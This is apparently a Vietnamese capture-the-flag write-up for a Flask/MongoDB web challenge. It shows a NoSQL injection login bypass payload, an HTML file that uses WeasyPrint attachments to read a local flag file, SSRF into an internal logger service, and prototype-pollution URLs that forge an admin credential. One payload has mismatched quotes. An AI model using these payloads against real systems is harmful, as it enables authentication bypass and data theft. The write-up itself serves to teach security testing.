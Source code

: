 ## Cách giải bài CTF

Giao diện trang web:

![](https://i.imgur.com/5TTVxSo.png)

### 1. Flag 1

Trang web có chức năng `/login`. Hiện tại trong ứng dụng chỉ có một user `admin` với password random.

![](https://i.imgur.com/oa9PpB1.png)

Tìm trong source code, ta thấy xuất hiện đoạn xử lí khi đăng nhập. Cụ thể server dùng MongoDB làm CSDL dạng NoSQL cho ứng dụng. Tuy nhiên khi trích xuất các tham số `username` và `password` từ request, server không thực hiện bất kì bước validate hay sanitize nào mà dùng chúng trực tiếp trong phần query thông qua hàm `find()` &rarr; NoSQL injection.

```python
def login_page():
    ...
    data = request.json
            if "username" in data.keys() and "password" in data.keys():
                login_cred = {"username": data["username"], "password": data["password"]}
                find_cred = dict()

                for i in tab.find(login_cred):
                    find_cred = i
                    break
    ...
```

Bắt request và đăng nhập bằng payload như sau:

```
{
    "username":"admin",
    "password":{
        "$ne": "1"
    }
}
```

Lúc này, câu query tương đương trong SQL sẽ dạng:

```
SELECT * FROM users WHERE username="admin" and password!="1"
```

Câu query trên luôn đúng &rarr; bypass login.

![](https://hackmd.io/_uploads/HkoDSAXN2.png)

Sau khi login, ta thấy ứng dụng có thêm chức năng converter.

![](https://i.imgur.com/a6CYxtB.png)

Chức năng `/converter` sử dụng thư viện `weasyprint` để convert HTML thành PDF file thông qua URL input. 

![](https://hackmd.io/_uploads/SkFFwCXEn.png)

Có thể thấy chức năng này dính lỗ hổng server-side XSS khi có thể dùng tag `<link>` để load local file từ server. Tạo file HTML `index.html` sau attach file `/tmp/flag.txt` (đọc Dockerfile).

```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Flag hunter</title>
    <link rel=attachment href="file:///tmp/flag.txt">
</head>
<body>
    <h1>Looking for the flag 😵</h1>
</body>
</html>
```

Tại thư mục chứa file HTML trên, lắng nghe http request ở port 10101.

```
D:> python3 -m http.server 10101
```

Điền URL `http://<DOCKER_GATEWAY>:10101/`, ta generate được file PDF có attachment là file `/tmp/flag.txt`.

![](https://hackmd.io/_uploads/rkLO_RXVn.png)

![](https://hackmd.io/_uploads/SkD9dA743.png)

Download file PDF và sử dụng PDF editor để xem nội dung file `flag.txt`.

![](https://hackmd.io/_uploads/S198KRXEh.png)

**Flag 1: VCS{p00r_n0SQL_inj3cti0n}**

### 2. Flag 2

Ta thấy chức năng `/converter` chỉ đơn giản validate xem scheme từ URL input phải là `http` hoặc `https` &rarr; SSRF.

```python
@app.route("/converter", methods=["GET", "POST"])
def converter_page():
    ...
    else:
        data = request.json
        if "url" in data.keys():
            url = data["url"]
            if urlparse(url).scheme.lower() not in ["http", "https"]:
                result = {"status": 403, "msg": "You can only use http or https."}
            else:
                filename = hashlib.sha256(os.urandom(16)).hexdigest()
                start_time = str(datetime.datetime.now())
                HTML(url).write_pdf(f"static/output/{filename}.pdf")
                ...
    ...

```

Như vậy ta có thể SSRF service `logger` bằng URL `http://logger:8000`.

Tại service `logger`,  xuất hiện lỗ hổng Prototype Poisoning tại endpoint `/admin-logs` khi sử dụng `Object.assign()` và `JSON.parse()` user input qua param `logs`.

```javascript
app.get("/admin-logs", (req, res)=>{
    try {
        let new_logs = {
            "ip": null,
            "time": null
        };
        returnedTarget = Object.assign(new_logs, JSON.parse(req.query.logs));
        logs.push(new_logs);
        if(new_logs.from_admin == true){
            return res.json({result: true, msg: FLAG1});
        }
        return res.json({result: true});
    } catch {
        return res.json({result: false});
    }
});
```

Gửi request với URL: `http://logger:8000/admin-logs?logs={"__proto__":{"from_admin": 1}}`. Khi đó `new_logs` sẽ được gán thuộc tính `from_admin` có giá trị `true`.

![](https://hackmd.io/_uploads/SJadsyV4h.png)

Xem file PDF được generate và ta lấy được flag.

![](https://hackmd.io/_uploads/ryYqikVNh.png)

**Flag 2: VCS{pr0t0typ3_p0is0nin9_1s_e4sY!}**

### 3. Flag 3

Đối với flag 3, service `logger` có endpoint `/flag` trả về flag nếu là user `is_admin: true` của service này. 

```javascript
app.get("/flag", (req, res)=>{
    if(req.query.username != null && req.query.password != null) {
        let username = req.query.username;
        let password = req.query.password;
        if(creds[username] != null && creds[username].password == password) {
            if(creds[username].is_admin == true){
                return res.json({result: true, msg: FLAG2});
            } else {
                return res.json({result: true, msg: "nothing for you ^^"});
            }
        }
        return res.json({result: false});
    }
    return res.json({result: false});
});
```

Các credentials được lưu vào object `creds`, và hiện tại chỉ user `admin` nhưng password đã bị ẩn.

```
const creds = {
    "admin": {
        "password": process.env.ADMINPW,
        "is_admin": true
    }
};
```

Tuy nhiên, để ý tại endpoint `/logs` xảy ra lỗi prototype pollution với `JSON.parse()` khi sử dụng hàm merge đệ quy để lưu log mới.

```javascript
app.get("/logs", (req, res)=>{
    try {
        let new_logs = {
            "ip": null,
            "time": null
        };
        merge(new_logs, JSON.parse(req.query.logs));
        logs.push(new_logs);
        return res.json({result: true});
    } catch {
        return res.json({result: false});
    }
});
```

Lợi dụng điều đó, ta sẽ "tạo" thêm 1 credential mới có giá trị `username=hacker`, `password=pwned` và `is_admin=1` bằng URL sau: `http://logger:8000/logs?logs={"__proto__":{"hacker": {"password": 'pwned', 'is_admin": 1}}}`

![](https://hackmd.io/_uploads/BJtL3y4Vh.png)

Gửi request, lúc này ta đã pollute thành công và có thể sử dụng credential vừa tạo để lấy flag. Convert bằng URL `http://logger:8000/flag?username=hacker&password=pwned`.

![](https://hackmd.io/_uploads/rJCTleEN3.png)

Response trả về được convert qua PDF và ta lấy được flag.

![](https://hackmd.io/_uploads/rJw1WgE43.png)

**Flag 3: VCS{pr0t0typ3_p0lluT10n_1s_e4sY_t00!}**

